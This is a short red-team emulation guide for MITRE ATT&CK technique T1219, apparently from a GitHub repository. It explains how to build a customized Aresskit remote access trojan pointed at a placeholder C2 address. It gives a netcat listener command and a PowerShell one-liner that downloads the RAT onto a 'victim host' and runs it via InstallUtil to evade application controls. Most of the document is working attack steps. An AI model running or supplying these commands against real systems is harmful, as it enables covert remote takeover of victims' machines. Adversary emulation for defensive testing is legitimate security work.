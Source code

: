 # Remote Access Tools

---
* **ID**: T1219
* **Source**: <https://attack.mitre.org/techniques/T1219/>
---

# Details

## Customized RAT
### Creating customized Aresskit
* Download the source code from [Github](https://github.com/BlackVikingPro/aresskit);
* Replace with [Program.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/Program.cs) and modify all `<ip_of_C2>` and `<port_of_C2>` accordingly;
* Replace with [FileHandler.cs](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/FileHandler.cs);
* Compile the program using `Debug` - `Any CPU`;
* Copy file `aresskit.exe` under folder `.\aresskit\bin\Debug` and upload it to your C2 host;

### Using customized Aresskit
* Start a listener on C2 host:
```
nc -lvvp <port_of_C2>
```
* Download and execute `aresskit.exe` on the victim host by leveraging `InstallUtil`:
```
powershell Invoke-WebRequest -Uri "http://<ip_of_C2>/aresskit.exe" -OutFile %ALLUSERSPROFILE%\aresskit.exe & C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U %ALLUSERSPROFILE%\aresskit.exe
```

# References

* <https://github.com/BlackVikingPro/aresskit>
* <https://stackoverflow.com/questions/34400546/could-not-load-file-or-assembly-operation-is-not-supported-exception-from-hres>
